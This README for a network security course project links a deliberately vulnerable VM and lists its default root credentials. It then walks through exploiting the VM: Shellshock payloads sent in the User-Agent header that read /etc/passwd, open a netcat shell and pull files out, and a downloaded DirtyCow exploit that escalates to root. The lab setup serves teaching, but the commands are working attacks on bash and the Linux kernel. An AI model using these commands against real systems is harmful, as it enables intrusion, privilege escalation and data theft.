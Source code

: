 # Network Security 2016 Project


### VM

Can be downloaded here: https://drive.google.com/open?id=0B5aLHLFCodGDTFBLRkQyWlJMNDg

**Important:** Check that bridged networking is enabled (Settings > Network > Adapter 1 > Attached to: Bridged Adapter)

Then you can access the webserver running on the VM from your host system.

To get the IP of the VM, start it, login and run the command 'ip addr show eth0'.

**Users:** 

* root:root
* netsec:netsec

**To Update:**

* login as user 'netsec'
* cd netsec-project
* git pull
* sudo ./setup.sh


**If you want to restore /usr/bin/passwd:**

* sudo cp /opt/passwd.bkp /usr/bin/passwd


### How to Exploit

Shellshock:
```
curl -H "User-Agent: () { :; }; echo \"Content-type: text/plain\"; echo \"\"; echo \"\"; /bin/cat /etc/passwd" 192.168.1.110/cgi-bin/index.cgi
```

Reverse Shell:
```
curl -H "User-Agent: () { :; }; /bin/netcat -e /bin/bash -l -p 12345" 192.168.1.110/cgi-bin/index.cgi
```

Connect to Reverse Shell:
```
netcat 192.168.1.110 12345
```

Information Gathering:
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

DirtyCow root privilege escalation:
```
cd /tmp
wget <url>/c0w.c --no-check-certificate
gcc -pthread c0w.c -o c0w
./c0w

(Wait...)

/usr/bin/passwd
id
uid=0(root) gid=0(root) groups=0(root)
```

Get Network Security exam:
```
find / -name "exam.pdf"

cp /home/netsec/exam.pdf /tmp/exam.pdf

exit

curl -H "User-Agent: () { :; }; echo \"Content-Type: application/pdf\"; echo \"\"; echo \"\"; /bin/cat /tmp/exam.pdf" 192.168.1.110/cgi-bin/index.cgi > exam.pdf
```
